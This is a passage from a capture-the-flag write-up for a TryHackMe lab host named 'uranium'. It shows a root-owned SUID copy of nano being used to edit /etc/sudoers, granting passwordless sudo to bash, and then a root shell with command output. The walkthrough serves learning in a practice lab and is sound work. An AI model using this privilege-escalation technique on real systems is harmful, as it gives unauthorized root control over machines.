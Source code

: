 ```shell
kral4@uranium:/home/kral4$ ls -lah nano 
-rwsrwxrwx 1 root root 241K Feb 17 08:31 nano
```

Nice! We now have SUID sticky bit on binary `nano`!

Also, it's owned by root!

**That being said, we can escalate our privilege to root by modifing `/etc/sudoers`!**
```shell
kral4@uranium:/home/kral4$ /home/kral4/nano /etc/sudoers
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Uranium-CTF/images/Pasted%20image%2020230217164407.png)

```shell
kral4@uranium:/home/kral4$ sudo -l
Matching Defaults entries for kral4 on uranium:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kral4 may run the following commands on uranium:
    (root) NOPASSWD: /bin/bash
```

**Boom! We can spawn a Bash shell as root!**
```shell
kral4@uranium:/home/kral4$ sudo /bin/bash
root@uranium:/home/kral4# whoami;hostname;id;ip a
root
uranium
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:c5:fc:b9:fc:6f brd ff:ff:ff:ff:ff:ff
    inet 10.10.180.31/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2609sec preferred_lft 2609sec
    inet6 fe80::c5:fcff:feb9:fc6f/64 scope link 
       valid_lft forever preferred_lft forever
```
